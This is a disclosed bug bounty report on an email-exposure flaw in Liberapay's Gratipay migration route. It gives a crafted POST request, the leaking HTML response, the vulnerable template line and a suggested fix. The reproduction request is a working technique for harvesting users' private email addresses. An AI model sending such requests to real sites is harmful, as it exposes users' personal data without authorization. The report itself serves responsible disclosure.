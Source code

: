 # Email Address Exposure via Gratipay Migration Tool

## Report Details
- **Report ID**: 1727044
- **URL**: https://hackerone.com/reports/1727044
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-10-07T22:40:56.667Z
- **Disclosed**: 2022-10-09T11:50:43.637Z

## Reporter
- **Username**: suprnova
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: liberapay

## Vulnerability Information
Through the `/migrate` route, an attacker can input the username of any user on the site and retrieve their primary email address without any authorization required.

# Steps to reproduce:

#### Note: This cannot be performed with `hackerone-target`, because that account seems to return a `None` as an email.
1. Craft and post an HTTP request that fakes step 1 of the migration process through Gratipay, with any email in the `email_address` field and the target's username in the `username` field.
```http
POST /migrate?step=2 HTTP/1.1
Host: liberapay.com
Cookie: XXXXXXX
X-CSRF-TOKEN: XXXXXXX
Content-Type: application/x-www-form-urlencoded

email_address=suprnova+gratipay@wearehackerone.com&username=suprnova
```
2. Examine the HTML of the response.
```html
<form action="" method="POST">
  <input type="hidden" name="form.repost" value="true" />
  <input type="hidden" name="email_address" value="suprnova+gratipay@wearehackerone.com" />
  <input type="hidden" name="username" value="suprnova" />
  <div class="alert alert-danger">The username &#39;<a href="/Suprnova/">Suprnova</a>&#39; is already taken.</div>
  <p>Does this existing account belong to you?</p>
  <p class="buttons">
    <button class="btn btn-default btn-lg"
      name="log-in.id" value="suprnova+very-secret-email-address@wearehackerone.com"
      >Yes</button>
    <button class="btn btn-default btn-lg"
      name="ignore-conflict" value="true"
      >No</button>
  </p>
</form>
```
The `value` field for `log-in.id` has been automatically populated with the primary email address of the target.

# Vulnerable Code
The problematic code can be found in the file [www/migrate.spt:349](https://github.com/liberapay/liberapay.com/blob/1f1a4b605def37aa9bed55586c7425a819c3fcdf/www/migrate.spt#L349).
```html
<p class="buttons">
  <button class="btn btn-default btn-lg"
    name="log-in.id" value="{{ existing_account.email }}"
    >{{ _("Yes") }}</button>
  <button class="btn btn-default btn-lg"
    name="ignore-conflict" value="true"
    >{{ _("No") }}</button>
</p>
```
The website automatically displays the email address of the existing account, despite the current user's lack of authorization to view that information.

# Mitigation:
To mitigate this exposure, the value for "log-in.id" could instead refer to the ID number of the account being referred to.

## Impact

A malicious attacker could simply identify any user on the site and instantly access their email address from the database to be used elsewhere, regardless of the victim's privacy settings.

## Attachments
No attachments
